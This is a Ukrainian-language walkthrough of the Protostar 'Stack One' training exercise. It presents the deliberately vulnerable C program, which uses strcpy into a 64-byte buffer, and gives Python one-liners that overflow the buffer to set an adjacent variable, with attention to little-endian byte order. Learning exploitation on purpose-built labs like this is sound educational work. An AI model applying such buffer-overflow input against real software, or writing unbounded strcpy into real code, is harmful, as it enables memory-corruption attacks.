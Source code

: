 ## [Stack One](http://exploit.education/protostar/stack-one/)

На даному рівні розглядається концепція модифікації змінних до певних значень у програмі та спосіб розміщення змінних у пам’яті.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Код схожий до попереднього рівня. У нас досі є ```volatile``` і буфер на 64 байти. Але замість ```gets()``` використовується ```strcpy()```. 
Дана функція приймає два аргументи: ```destination``` і ```source```. Вона копіює дані із рядка, на який вказує аргумент ```source```, у рядок, на який вказує аргумент ```destination```, 
поки не зустрінеться символ кінця рядка. Копіювання відбувається разом із символом кінця рядка. Якщо рядки перекриваються, то результат копіювання буде невизначений.  
Ще однією відмінністю від попереднього рівня є те, що змінна ```modified``` повинна дорівнювати 0x61626364.  

Спробуємо запусти код із попереднього рівня для перевірки результату. Тільки цього разу потрібно скористатися BASH для підстановки значення, щоб використовувати наш вивід у якості аргументу:  
```./stack1 $(python -c "print 'a' * 65")```

У результаті буде отримано: "Try again, you got 0x00000061". Якщо подивитися у таблицю ASCII-символів, то символ 'a' якраз має значення 0x00000061 у шістнадцятковій системі. 
До речі, 0x61626364 очевидно буде 'abcd'. Отже, можна просто ввести 64 символи у буфер, а останніми задати 'abcd'. 
Але насправді тут є один нюанс під назвою little endian (числа у пам'яті перевернуті). Отже, потрібно зробити реверс рядка. Маємо наступну команду:  
```./stack1 $(python -c "print('a' * 64 + 'abcd'[::-1])")```

Ну або більш універсальний спосіб (щоб не вгадувати коди необхідних символів):  
```./stack1 $(python -c "from struct import pack; print('a' * 64 + pack('<I', 0x61626364))")```